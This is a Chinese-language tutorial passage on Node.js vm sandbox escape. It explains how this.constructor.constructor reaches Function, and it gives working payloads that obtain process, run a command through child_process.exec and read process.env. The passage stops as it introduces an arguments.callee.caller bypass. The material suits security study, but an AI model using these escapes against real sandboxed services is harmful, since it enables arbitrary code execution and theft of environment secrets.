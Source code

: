 - **vm.runInNewContext(context,code)**

执行的效果相当于createContext和runInContext，`context`可以不进行提供（默认生成一个context）

```javascript
const vm = require('vm');

const code = 'this.constructor.constructor("return process")();';
const res = vm.runInNewContext(code);
console.log(res.mainModule.require("child_process").exec('calc'));
```

### 沙箱逃逸原理

主要就是获取一个沙箱外的对象

介绍一下`this.constructor.constructor("return process")();`是什么意思？

> `this`代表当前调用该函数的对象
>
> 浏览器环境/全局环境下使用`this指向window对象`

![image-20240326142944198](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240326142944198.png)

`this.constructor.constructor`获取到`Function`

```javascript
function Foo() {
    name: 123
};

const a = new Foo();

console.log(a.constructor);//[Function: Foo]
console.log(a.constructor.constructor);//[Function: Function]
```

### 沙箱逃逸绕过Object.create(null)

将sandbox对象设置为null，`this.constructor`获取不到对象

```javascript
const vm = require("vm");

const sandbox = Object.create(null);

vm.createContext(sandbox);

const code = "this.constructor.constructor('return process')().env";
console.log(vm.runInContext(code,sandbox));
```

![image-20240326144813664](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240326144813664.png)

`arguments.callee.caller`来进行绕过
